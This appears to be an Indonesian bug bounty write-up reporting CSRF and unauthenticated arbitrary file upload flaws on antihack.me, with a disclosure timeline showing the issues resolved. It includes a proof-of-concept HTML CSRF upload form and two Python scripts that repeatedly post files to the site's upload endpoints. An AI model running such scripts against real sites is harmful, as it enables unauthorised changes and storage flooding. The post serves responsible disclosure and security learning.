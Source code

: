 ```yaml
---
layout: post
title: "[Bug Bounty] Antihack.me CSRF And Arbitrary File Upload"
date: 2019-01-09
tags: [ "Bug Bounty", "CSRF"]
---
```


![](/images/bugbounty/antihack/logo.png)

## Introduction

Antihack.me merupakan sebuah website Bug Bounty Platform asal singapura. Setelah mendaftarkan user baru dan berhasil login ke aplikasi, disana terdapat banyak fitur seperti platform-platform bug bounty lainnya, seperti fitur list program, submit report, dan lain sebagainya, termasuk juga dapat mengatur profile kita sebagai bug hunter. 

## CSRF Vulnerability
Cross-site Request Forgery (CSRF) atau bisa disebut dengan one-click attack adalah sebuah serangan yang menggunakan injeksi script baik itu berupa kode javascript, link, atau gambar dengan memanfaatkan token autentikasi.

Disebut one-click attack karena metode ini hanya perlu pemicu dari user dan pemicunya bisa berupa link yang sudah dimaipulasi untuk mengeksekusi perintah.

Nah secara umum CSRF ini bekerja dengan memanfaatkan token autentikasi korbannya dengan tujuan melakukan suatu request yang tidak dinginkan oleh korban. Disini terlihat perbedaan antara CSRF dan Phising, Phising menggunakan url samaran untuk menipu korbannya yang seakan - akan menyerupai website resminya sedangkan CSRF korban akan dibawa kesebuah website yang baginya menarik dan oleh hacker website tersebut akan diinject dengan script jahat. [source](https://www.kodinggen.com/apa-itu-csrf-bagaimana-cara-kerjanya-dan-tips-pencegahannya/)

## CSFR On Profile Image File Upload

Tertarik dengan fitur upload imagenya, kita coba intercept request upload image tersebut.

![](/images/bugbounty/antihack/csrf1/burp.png)

Terlihat disana beberapa parameter yang dikirimkan, akan tetapi disana tidak ada csrf protection, artinya kita dapat memanfaatkan celah ini untuk merubah foto profile orang lain dengan malicious file/script.

Lalu kita coba test request dengan html:
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>CSRF File Upload</title>
</head>
<body>
	<form action="https://www.antihack.me/php/img_save_to_file_hacker.php" method="POST" name="csrf" enctype="multipart/form-data">
		<input type="file" name="img">
		<input name="HOST" value="AntiHACK">
		<input type="submit" value="Kirim">
	</form>
</body>
</html>
```

Lalu kita coba akses secript diatas di browser dan didapatkan file berhasil diupload dengan baik, artinya jika orang lain yang sedang login ke platform lalu mengakses malicious file tersebut maka secara otomatis foto profile nya akan berubah :)

![](/images/bugbounty/antihack/csrf1/html.png)



## Arbitrary File Upload #1

Biasanya disebut sebagai "Arbitrary File Upload", seorang attacker dapat mengakses fungsi upload tertentu pada aplikasi tanpa proses autentikasi yang benar. Meski tidak dijelaskan secara khusus oleh CWE, secara tidak langsung disebut melalui CWE-862 “Missing Authorization”(Mitre, 2015). Arbitrary File Upload dapat berimpact remote DOS (Denial Of Service), unauthecticated user dapat membanjiri storage server. Kerentanan ini biasanya disebabkan oleh tidak adanya pengecekan otorisasi yang benar. [Source : SANS](https://www.sans.org/reading-room/whitepapers/testing/web-application-file-upload-vulnerabilities-36487)

Pada kasus CSRF pada foto profile diatas ternyata juga terdapat celah Arbitary File Upload, dimana dengan script python dibawah ini kita dapat membanjiri server dengan gambar sampah tanpa proses autentikasi :
```
#!/usr/bin/python3

import requests

headers = {
    'Origin':'www.antihack.me'
}
files = {
        'img': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }
data = {
    "HOST":"AntiHACK"
}

for i in range(3):
    r = requests.post("https://www.antihack.me/php/img_save_to_file_hacker.php",files=files, headers=headers, data=data)
    print(r.text)
```
Ketika dieksekusi, file terupload dengan baik.


![](/images/bugbounty/antihack/csrf1/python.png)

## Arbitrary File Upload #2 

Sepertihalnya platform bug bounty pada umumnya, disana terdapat fitur untuk melakukan reporting terkait celah keamanan yang ditemukan. Didalam fitur reporting tersebut terdapat beberapa fungsi editing, tak lupa fungsi upload file gambar/video juga disertakan guna kelengkapan report. 

Dengan script python dibawah ini kita juga dapat membanjiri server dengan gambar sampah tanpa proses autentikasi :
```
#!/usr/bin/python3

import requests


files = {
        'files[]': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }

for i in range(5):
	r = requests.post("https://www.antihack.me/php/ajax_upload_file_company_new.php",files=files)
	print(r.text)


```

Didapatkan result sebagai berikut:

![](/images/bugbounty/antihack/csrf2/python.png)

Semoga bermanfaat :"


```
2018-12-28: Bug reported
2018-12-29: Triaged
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```